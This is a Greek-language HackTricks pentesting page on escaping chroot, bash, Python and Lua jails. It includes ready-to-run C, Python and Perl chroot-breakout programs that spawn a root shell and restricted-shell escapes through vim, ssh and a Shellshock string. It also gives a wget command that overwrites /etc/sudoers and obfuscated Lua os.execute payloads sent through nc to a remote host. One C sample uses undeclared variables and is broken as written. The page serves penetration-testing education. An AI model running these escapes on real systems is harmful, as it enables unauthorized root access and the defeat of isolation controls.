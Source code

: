 # Απόδραση από Φυλακές

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο Hacking του AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Εκπαίδευση HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο Hacking του GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Εκπαίδευση HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε** στην 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα χάκερ κάνοντας υποβολή PRs** στα αποθετήρια [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

## **GTFOBins**

**Αναζητήστε στο** [**https://gtfobins.github.io/**](https://gtfobins.github.io) **αν μπορείτε να εκτελέσετε οποιοδήποτε δυαδικό με ιδιότητα "Shell"**

## Απόδραση από Chroot

Από [wikipedia](https://en.wikipedia.org/wiki/Chroot#Limitations): Ο μηχανισμός chroot **δεν προορίζεται να προστατεύσει** από εσκεμμένη παρεμβολή από **προνομιούχους** (**root**) **χρήστες**. Σε περισσότερα συστήματα, τα περιβάλλοντα chroot δεν στοιβάζονται σωστά και τα προγράμματα που έχουν τεθεί σε chroot **με επαρκή δικαιώματα μπορεί να εκτελέσουν ένα δεύτερο chroot για να ξεφύγουν**.\
Συνήθως αυτό σημαίνει ότι για να αποδράσετε πρέπει να είστε root μέσα στο chroot.

{% hint style="success" %}
Το **εργαλείο** [**chw00t**](https://github.com/earthquake/chw00t) δημιουργήθηκε για να καταχραστεί τα παρακάτω σενάρια και να ξεφύγει από το `chroot`.
{% endhint %}

### Root + CWD

{% hint style="warning" %}
Αν είστε **root** μέσα σε ένα chroot μπορείτε να **ξεφύγετε** δημιουργώντας **ένα άλλο chroot**. Αυτό συμβαίνει επειδή δύο chroots δεν μπορούν να υπάρχουν ταυτόχρονα (στο Linux), οπότε αν δημιουργήσετε ένα φάκελο και στη συνέχεια **δημιουργήσετε ένα νέο chroot** σε αυτόν τον νέο φάκελο ενώ **είστε έξω από αυτόν**, τώρα θα βρίσκεστε **έξω από το νέο chroot** και συνεπώς θα βρίσκεστε στο FS.

Αυτό συμβαίνει επειδή συνήθως το chroot ΔΕΝ μετακινεί τον τρέχοντα κατάλογο εργασίας στον καθορισμένο, οπότε μπορείτε να δημιουργήσετε ένα chroot αλλά να είστε έξω από αυτόν.
{% endhint %}

Συνήθως δεν θα βρείτε το δυαδικό `chroot` μέσα σε μια φυλακή chroot, αλλά **μπορείτε να το μεταγλωττίσετε, να το ανεβάσετε και να το εκτελέσετε**:

<details>

<summary>C: break_chroot.c</summary>
```c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
mkdir("chroot-dir", 0755);
chroot("chroot-dir");
for(int i = 0; i < 1000; i++) {
chdir("..");
}
chroot(".");
system("/bin/bash");
}
```
</details>

<details>

<summary>Πυθον</summary>
```python
#!/usr/bin/python
import os
os.mkdir("chroot-dir")
os.chroot("chroot-dir")
for i in range(1000):
os.chdir("..")
os.chroot(".")
os.system("/bin/bash")
```
</details>

<details>

<summary>Perl</summary>
```perl
#!/usr/bin/perl
mkdir "chroot-dir";
chroot "chroot-dir";
foreach my $i (0..1000) {
chdir ".."
}
chroot ".";
system("/bin/bash");
```
</details>

### Root + Αποθηκευμένο fd

{% hint style="warning" %}
Αυτό είναι παρόμοιο με την προηγούμενη περίπτωση, αλλά σε αυτή την περίπτωση ο **εισβολέας αποθηκεύει έναν αριθμό αρχείου στον τρέχοντα κατάλογο** και στη συνέχεια **δημιουργεί το chroot σε έναν νέο φάκελο**. Τελικά, καθώς έχει **πρόσβαση** σε αυτόν τον **FD** **έξω** από το chroot, μπορεί να τον χρησιμοποιήσει και να **δραπετεύσει**.
{% endhint %}

<details>

<summary>C: break_chroot.c</summary>
```c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
mkdir("tmpdir", 0755);
dir_fd = open(".", O_RDONLY);
if(chroot("tmpdir")){
perror("chroot");
}
fchdir(dir_fd);
close(dir_fd);
for(x = 0; x < 1000; x++) chdir("..");
chroot(".");
}
```
</details>

### Root + Fork + UDS (Unix Domain Sockets)

{% hint style="warning" %}
Το FD μπορεί να περάσει μέσω Unix Domain Sockets, οπότε:

* Δημιούργησε ένα παιδί διεργασία (fork)
* Δημιούργησε UDS ώστε ο γονέας και το παιδί να μπορούν να επικοινωνούν
* Εκτέλεσε chroot στη διεργασία παιδιού σε διαφορετικό φάκελο
* Στη διεργασία γονέα, δημιούργησε ένα FD ενός φακέλου που βρίσκεται έξω από το chroot της νέας διεργασίας παιδιού
* Πέρασε στη διεργασία παιδί αυτό το FD χρησιμοποιώντας το UDS
* Η διεργασία παιδί αλλάζει τον τρέχοντα κατάλογο σε αυτό το FD και επειδή βρίσκεται έξω από το chroot της, θα δραπετεύσει από τη φυλακή
{% endhint %}

### Root + Mount

{% hint style="warning" %}
* Τοποθέτηση της ρίζας της συσκευής (/) σε έναν κατάλογο μέσα στο chroot
* Εκτέλεση chroot σε αυτόν τον κατάλογο

Αυτό είναι δυνατό στο Linux
{% endhint %}

### Root + /proc

{% hint style="warning" %}
* Τοποθέτηση του procfs σε έναν κατάλογο μέσα στο chroot (αν δεν υπάρχει ακόμα)
* Αναζήτηση ενός pid που έχει διαφορετική καταχώριση ρίζας/cwd, όπως: /proc/1/root
* Εκτέλεση chroot σε αυτήν την καταχώριση
{% endhint %}

### Root(?) + Fork

{% hint style="warning" %}
* Δημιουργία ενός Fork (διεργασία παιδί) και chroot σε έναν διαφορετικό φάκελο βαθύτερα στο FS και CD σε αυτόν
* Από τη διεργασία γονέα, μετακίνησε τον φάκελο όπου βρίσκεται η διεργασία παιδί σε έναν φάκελο πριν το chroot των παιδιών
* Αυτή η διεργασία παιδί θα βρει τον εαυτό της έξω από το chroot
{% endhint %}

### ptrace

{% hint style="warning" %}
* Παλιότερα, οι χρήστες μπορούσαν να εντοπίζουν σφάλματα στις δικές τους διεργασίες από μια διεργασία του ίδιου... αλλά αυτό δεν είναι πλέον δυνατό από προεπιλογή
* Παρόλα αυτά, αν είναι δυνατό, μπορείτε να χρησιμοποιήσετε το ptrace σε μια διεργασία και να εκτελέσετε ένα shellcode μέσα σε αυτήν ([δείτε αυτό το παράδειγμα](linux-capabilities.md#cap\_sys\_ptrace)).
{% endhint %}

## Bash Jails

### Enumeration

Λήψη πληροφοριών σχετικά με τη φυλακή:
```bash
echo $SHELL
echo $PATH
env
export
pwd
```
### Τροποποίηση του PATH

Ελέγξτε εάν μπορείτε να τροποποιήσετε τη μεταβλητή περιβάλλοντος PATH
```bash
echo $PATH #See the path of the executables that you can use
PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin #Try to change the path
echo /home/* #List directory
```
### Χρησιμοποιώντας το vim
```bash
:set shell=/bin/sh
:shell
```
### Δημιουργία σεναρίου

Ελέγξτε αν μπορείτε να δημιουργήσετε ένα εκτελέσιμο αρχείο με περιεχόμενο _/bin/bash_
```bash
red /bin/bash
> w wx/path #Write /bin/bash in a writable and executable path
```
### Αποκτήστε το bash από το SSH

Εάν έχετε πρόσβαση μέσω ssh, μπορείτε να χρησιμοποιήσετε αυτό το κόλπο για να εκτελέσετε ένα κέλυφος bash:
```bash
ssh -t user@<IP> bash # Get directly an interactive shell
ssh user@<IP> -t "bash --noprofile -i"
ssh user@<IP> -t "() { :; }; sh -i "
```
### Δήλωση
```bash
declare -n PATH; export PATH=/bin;bash -i

BASH_CMDS[shell]=/bin/bash;shell -i
```
### Wget

Μπορείτε να αντικαταστήσετε για παράδειγμα το αρχείο sudoers
```bash
wget http://127.0.0.1:8080/sudoers -O /etc/sudoers
```
### Άλλα κόλπα

[**https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/**](https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/)\
[https://pen-testing.sans.org/blog/2012/0**b**6/06/escaping-restricted-linux-shells](https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells)\
[https://gtfobins.github.io](https://gtfobins.github.io)\
**Ενδιαφέρουσα μπορεί να είναι επίσης η σελίδα:**

{% content-ref url="../bypass-bash-restrictions/" %}
[bypass-bash-restrictions](../bypass-bash-restrictions/)
{% endcontent-ref %}

## Python Jails

Κόλπα σχετικά με την απόδραση από τα Python jails στην ακόλουθη σελίδα:

{% content-ref url="../../generic-methodologies-and-resources/python/bypass-python-sandboxes/" %}
[bypass-python-sandboxes](../../generic-methodologies-and-resources/python/bypass-python-sandboxes/)
{% endcontent-ref %}

## Lua Jails

Σε αυτήν τη σελίδα μπορείτε να βρείτε τις γενικές λειτουργίες στις οποίες έχετε πρόσβαση μέσα στο Lua: [https://www.gammon.com.au/scripts/doc.php?general=lua\_base](https://www.gammon.com.au/scripts/doc.php?general=lua\_base)

**Αξιολόγηση με εκτέλεση εντολής:**
```bash
load(string.char(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))()
```
Μερικά κόλπα για **να καλέσετε συναρτήσεις ενός βιβλιοθήκης χωρίς να χρησιμοποιήσετε τελείες**:
```bash
print(string.char(0x41, 0x42))
print(rawget(string, "char")(0x41, 0x42))
```
Απαριθμήστε τις λειτουργίες ενός βιβλιοθήκης:
```bash
for k,v in pairs(string) do print(k,v) end
```
Σημειώστε ότι κάθε φορά που εκτελείτε την προηγούμενη μιας γραμμής εντολή σε ένα **διαφορετικό περιβάλλον lua η σειρά των λειτουργιών αλλάζει**. Επομένως, αν χρειάζεστε να εκτελέσετε μια συγκεκριμένη λειτουργία, μπορείτε να πραγματοποιήσετε μια επίθεση βίας φορτώνοντας διαφορετικά περιβάλλοντα lua και καλώντας την πρώτη λειτουργία της βιβλιοθήκης:
```bash
#In this scenario you could BF the victim that is generating a new lua environment
#for every interaction with the following line and when you are lucky
#the char function is going to be executed
for k,chr in pairs(string) do print(chr(0x6f,0x73,0x2e,0x65,0x78)) end

#This attack from a CTF can be used to try to chain the function execute from "os" library
#and "char" from string library, and the use both to execute a command
for i in seq 1000; do echo "for k1,chr in pairs(string) do for k2,exec in pairs(os) do print(k1,k2) print(exec(chr(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))) break end break end" | nc 10.10.10.10 10006 | grep -A5 "Code: char"; done
```
**Λάβετε διαδραστικό κέλυφος lua**: Εάν βρίσκεστε μέσα σε ένα περιορισμένο κέλυφος lua, μπορείτε να λάβετε ένα νέο κέλυφος lua (και ελπίζουμε απεριόριστο) καλώντας:
```bash
debug.debug()
```
## Αναφορές

* [https://www.youtube.com/watch?v=UO618TeyCWo](https://www.youtube.com/watch?v=UO618TeyCWo) (Διαφάνειες: [https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf](https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf))

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο Hacking του AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Εκπαίδευση HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο Hacking του GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Εκπαίδευση HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε** στην 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs** στα αποθετήρια [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
